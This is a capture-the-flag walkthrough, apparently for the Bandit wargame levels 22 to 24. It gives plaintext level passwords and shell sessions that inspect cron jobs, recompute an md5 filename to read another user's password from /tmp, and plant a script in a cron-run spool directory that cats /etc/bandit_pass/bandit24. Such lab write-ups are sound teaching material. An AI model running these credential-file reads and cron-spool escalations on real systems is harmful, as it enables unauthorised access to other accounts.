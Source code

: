 * username = bandit22
* password = Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI

  ######Things we have to do and the results
   bandit22@melinda:~$ cd /etc/cron.d/ 
    bandit22@melinda:/etc/cron.d$ ls
    boobiesbot-check	cronjob_bandit24	manpage3_resetpw_job	natas26_cleanup	semtex0-ppc	semtex6	vortex0
    cron-apt	eloi0	natas-session-toucher	php5	semtex10	semtex8	vortex20
    cronjob_bandit22	eloi1	natas-stats	semtex0-32	semtex12	semtex9	vulnbot0-check
    cronjob_bandit23	hintbot-check	natas25_cleanup	semtex0-64	semtex5	sysstat	vulnbot1-check
    bandit22@melinda:/etc/cron.d$ cat cronjob_bandit23
    * * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
    bandit22@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit23.sh
    #!/bin/bash
    
    myname=$(whoami)
    mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
    
    echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
    
    cat /etc/bandit_pass/$myname > /tmp/$mytarget
    bandit22@melinda:/etc/cron.d$ /usr/bin/cronjob_bandit23.sh 
    Copying passwordfile /etc/bandit_pass/bandit22 to /tmp/8169b67bd894ddbb4412f91573b38db3
    bandit22@melinda:/etc/cron.d$ echo I am user bandit23 | md5sum | cut -d ' ' -f 1
    8ca319486bfbbc3663ea0fbe81326349
    
    bandit22@melinda:/etc/cron.d$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
    jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
    
    
####level 23 to Level 24

* username = bandit23
* password = jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

  ######Things we have to do and the results
    bandit23@melinda:~$ cd /etc/cron.d
    bandit23@melinda:/etc/cron.d$ ls
    boobiesbot-check	cronjob_bandit24	manpage3_resetpw_job	natas26_cleanup	semtex0-ppc	semtex6	vortex0
    cron-apt	eloi0	natas-session-toucher	php5	semtex10	semtex8	vortex20
    cronjob_bandit22	eloi1	natas-stats	semtex0-32	semtex12	semtex9	vulnbot0-check
    cronjob_bandit23	hintbot-check	natas25_cleanup	semtex0-64	semtex5	sysstat	vulnbot1-check
    bandit23@melinda:/etc/cron.d$ cat cronjob_bandit24 
    * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    bandit23@melinda:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
    #!/bin/bash
    
    myname=$(whoami)
    
    cd /var/spool/$myname
    echo "Executing and deleting all scripts in /var/spool/$myname:"
    for i in *;
    do
        echo "Handling $i"
        ./$i
        rm -f $i
    done
    bandit23@melinda:/var/spool/bandit24$ mkdir -p /tmp/level24
    bandit23@melinda:/var/spool/bandit24$ cd /tmp/level24
    bandit23@melinda:/tmp/level24$ vim sp.sh
    #!/bin/sh
    cat /etc/bandit_pass/bandit24 >> /tmp/level24/bandit24
    touch /tmp/level24/ok
    bandit23@melinda:/tmp/level24$ chmod 777 sp.sh 
    bandit23@melinda:/tmp/level24$ cp sp.sh /var/spool/bandit24/
    bandit23@melinda:/tmp/level24$ ls
    bandit24  ok  sp.sh
    